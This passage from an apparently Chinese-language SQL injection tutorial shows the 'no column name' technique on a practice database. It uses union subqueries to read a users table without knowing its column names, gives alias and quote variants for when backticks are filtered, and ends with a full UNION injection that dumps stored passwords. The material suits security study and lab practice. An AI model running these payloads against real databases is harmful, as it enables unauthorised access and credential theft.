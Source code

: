 ```sql
mysql> select 3 from (select 1,2,3 union select * from users)c;
+---+
| 3 |
+---+
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
| 3 |
+---+
14 rows in set (0.00 sec)
```

如果过滤了反引号的话, 还可以通过别名或者单双引号来绕过

别名 第一种方式 (字段别名)

```sql
select a from (select 1,2,3 a union select * from users)c;
```

别名 第二种方式 (子查询 别名)

```sql
select c.3 from (select 1,2,3 union select * from users)c;
```

引号

```sql
mysql> select mycolumn from (select 1,2,"mycolumn" union select * from users)c;
```

引号的作用就类似于我们为这一列单独设置了一个列名, 然后在最开头的 select 查询该列名来返回数据

放在 sql 注入里的形式

```sql
mysql> select * from emails where id=1 union select 1,`3` from (select 1,2,3 union select * from users)c;
+----+------------------+
| id | email_id         |
+----+------------------+
|  1 | Dumb@dhakkan.com |
|  1 | 3                |
|  1 | Dumb             |
|  1 | I-kill-you       |
|  1 | p@ssword         |
|  1 | crappy           |
|  1 | stupidity        |
|  1 | genious          |
|  1 | mob!le           |
|  1 | admin            |
|  1 | admin1           |
|  1 | admin2           |
|  1 | admin3           |
|  1 | dumbo            |
|  1 | admin4           |
+----+------------------+
15 rows in set (0.00 sec)
```
